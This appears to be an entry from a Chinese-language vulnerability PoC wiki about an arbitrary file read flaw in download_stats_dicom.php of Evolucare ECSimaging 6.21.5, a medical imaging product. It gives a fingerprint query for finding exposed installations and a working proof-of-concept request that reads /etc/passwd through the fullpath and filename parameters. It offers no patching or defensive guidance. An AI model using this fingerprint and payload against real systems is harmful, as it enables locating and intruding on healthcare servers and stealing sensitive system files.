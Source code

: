 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c-20220313153823825.png)

验证POC

```javascript
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1645546522769-c4a3e88c-e234-49f9-b1f6-2d49742683b0.png)